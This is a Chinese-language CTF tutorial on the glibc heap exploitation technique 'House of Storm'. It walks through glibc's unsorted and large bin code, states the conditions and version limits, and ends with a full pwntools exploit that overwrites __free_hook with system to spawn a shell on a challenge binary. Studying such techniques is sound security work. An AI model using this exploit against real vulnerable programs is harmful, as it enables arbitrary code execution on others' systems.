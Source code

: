 # House of Storm

## 1.基本原理

unsorted bin attack 能够通过将目标地址链入 unsorted bin 然后取出其中另一个 chunk 从而在目标地址对应的 bk 写入 unsorted_chunks (av) ，然而如果我们想要将链入 unsorted bin 的 fake chunk
申请出来却通不过检查。这就需要利用 large bin 的特性伪造 fake chunk 的 size 和 fd 字段

利用条件：

- glibc 版本小于 2.30, 因为 2.30 之后加入了检查
- 需要攻击者在 `large_bin` 和 `unsorted_bin` 中分别布置一个 chunk 这两个 chunk 需要在归位之后处于同一个 `largebin` 的 index 中且 `unsorted_bin` 中的 chunk 要比 `large_bin` 中的大
- 需要 `unsorted_bin` 中的 `bk` 指针可控, 要指向可写内存
- 需要 `large_bin` 中的 `bk` 指针和 `bk_nextsize` 指针可控
- 利用 large bin attack 分别错位写一个 size 和 bk 的地址，size 错位写了 0x56（由于 pie 的原因，chunk 的地址总是为 6 字节，但是头部地址可能是 0x55 或者 0x56，这里需要 0x56 才能成功，因为 malloc 后会进行检测，一半成功的概率，如果 pie 关闭，该方法失效）



从 unsortedbin 中取出 chunk

```c
bck = victim->bk;
...
/* remove from unsorted list */
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

由于取出的 chunk 大小不在 small bin 范围，所以将放入 large bin

```c
/* place chunk in bin */

if (in_smallbin_range (size))
{
  victim_index = smallbin_index (size);
  bck = bin_at (av, victim_index);
  fwd = bck->fd;
}
else
{ ...
}
```

large bin 中的 chunk 是按大小降序排列。首先特判大小小于最小的 chunk 的情况。这里通过 bk 访问最小的 chunk ，根据事先的构造，待加入 large bin 的 chunk 大于 large bin 中最小的 chunk ，因此执行的是 else 里的内容

```c
else
{
  victim_index = largebin_index (size);
  bck = bin_at (av, victim_index);
  fwd = bck->fd;

  /* maintain large bins in sorted order */
  // largebin 不为空条件下
  if (fwd != bck)
    {
      /* Or with inuse bit to speed comparisons */
      size |= PREV_INUSE;
      /* if smaller than smallest, bypass loop below */
      assert (chunk_main_arena (bck->bk));
      // 如果小于 largebin 中最小 chunk 的情况
      if ((unsigned long) (size) < (unsigned long) chunksize_nomask (bck->bk))
        {
          fwd = bck;
          bck = bck->bk;

          victim->fd_nextsize = fwd->fd;
          victim->bk_nextsize = fwd->fd->bk_nextsize;
          fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
        }
      // 不插在最后的情况
      else
        {
          assert (chunk_main_arena (fwd));
          // 遍历查找插入位置的前一个 chunk（fwd）
          while ((unsigned long) size < chunksize_nomask (fwd))
            {
              fwd = fwd->fd_nextsize;
  			  assert (chunk_main_arena (fwd));
            }
		  // 如果与前一个 chunk 大小相等，则正好插在前一个 fwd 的后一个位置
          if ((unsigned long) size == (unsigned long) chunksize_nomask (fwd))
            /* Always insert in the second position.  */
            fwd = fwd->fd;
          // 居中插入的情况
          else
            {
              victim->fd_nextsize = fwd;
              victim->bk_nextsize = fwd->bk_nextsize;
              fwd->bk_nextsize = victim;
              victim->bk_nextsize->fd_nextsize = victim;
            }
          bck = fwd->bk;
        }
    }
  else
    victim->fd_nextsize = victim->bk_nextsize = victim;
}

mark_bin (av, victim_index);
victim->bk = bck;
victim->fd = fwd;
fwd->bk = victim;
bck->fd = victim;
```

这里主要对fakechunk进行了两次写入的操作，一次是`victim->bk_nextsize->fd_nextsize = victim`,一次是`fwd->bk = victim`,分别用于伪造fakechunk的size和bk字段

![image-20250415160954667](./assets/6.House_of_Storm/image-20250415160954667.png)

精心构造成如下写的形式：

* 在开启pie的情况下，heap的地址首字节为0x55（01010101）或0x56（01010110），最后三位分别代表N、M、P，如果首地址字节为0x55，那么is_mmapped置0，会判断 arena_for_chunk(mem2chunk(victim))。由于 NON_MAIN_ARENA 置位导致计算出的 arena 不是 main_arena(ar_ptr) 因此通不过检查，所以首字节必须是0x56，此时直接mmapped通过检查即可。也就是说在运行时有一半的概率是修改正确的

  ```c
  assert (!victim || chunk_is_mmapped (mem2chunk (victim)) ||
        ar_ptr == arena_for_chunk (mem2chunk (victim)));
  
  #define arena_for_chunk(ptr) \
    (chunk_main_arena (ptr) ? &main_arena : heap_for_ptr (ptr)->ar_ptr)
  ```
  
* 之后我们再遍历unsortedbin将fakechunk申请出来

![image-20250415190516483](./assets/6.House_of_Storm/image-20250415190516483.png)

glibc-2.27加入了tcache，那么此时遍历unsortedbin之后会把找到的合适chunk放到tcache中然后继续遍历，因此还会触发报错，所以需要先将tcache填满，最后通过calloc申请触发house of storm

glibc-2.28会对unsortedbin进行如下检查：

```c
/* remove from unsorted list */
if (__glibc_unlikely (bck->fd != victim))
malloc_printerr ("malloc(): corrupted unsorted chunks 3");
```

glibc-2.30开始对largebin有如下检查：

```c
if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd))
malloc_printerr ("malloc(): largebin double linked list corrupted (nextsize)");
```

该方法失效

## 2.利用思路

exp：

```python
from pwn import *

elf_path = './pwn'
libc_path = './libc.so.6'
elf = ELF(elf_path, checksec=False)
libc = ELF(libc_path)
context(arch=elf.arch, os=elf.os, log_level="debug")
# context.terminal = ['tmux','splitw','-h']
ip = '8.147.135.93'
port = 37051

local = 1
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

# session = ssh(host='node5.buuoj.cn', port=26482, user='CTFMan', password='guest')
# p = session.process(['./vuln'])
#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
n64     = lambda x                  :(x + 0x10000000000000000) & 0xFFFFFFFFFFFFFFFF
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sla(b"choice:\n", b"1")
    sla(b"index:\n", str(index).encode())
    sla(b"size:\n", str(size).encode())

def delete_chunk(index):
    sla(b"choice:\n", b"2")
    sla(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sla(b"choice:\n", b"3")
    sla(b"index:\n", str(index).encode())
    sla(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sla(b"choice:\n", b"4")
    sla(b"index:\n", str(index).encode())

def exit_p():
    sla(b"choice:\n", b"5")

add_chunk(0, 0x418)
add_chunk(1, 0x18)
add_chunk(2, 0x428)
add_chunk(3, 0x18)
delete_chunk(0)
show_chunk(0)
libc.address = u64Leakbase(0x39bb78)
li("libc.address", libc.address)

add_chunk(10, 0x500)
edit_chunk(0, p64(0)+p64(libc.sym['__free_hook']-8)+p64(0)+p64(libc.sym['__free_hook']-0x10-0x18-5))
delete_chunk(2)
edit_chunk(2, p64(0)+p64(libc.sym['__free_hook']-0x10))

add_chunk(4, 0x48)
edit_chunk(4, p64(libc.sym['system']))
edit_chunk(1, b"/bin/sh\x00")
delete_chunk(1)
# #
# gdb.attach(p)
# pause()
p.interactive()
```

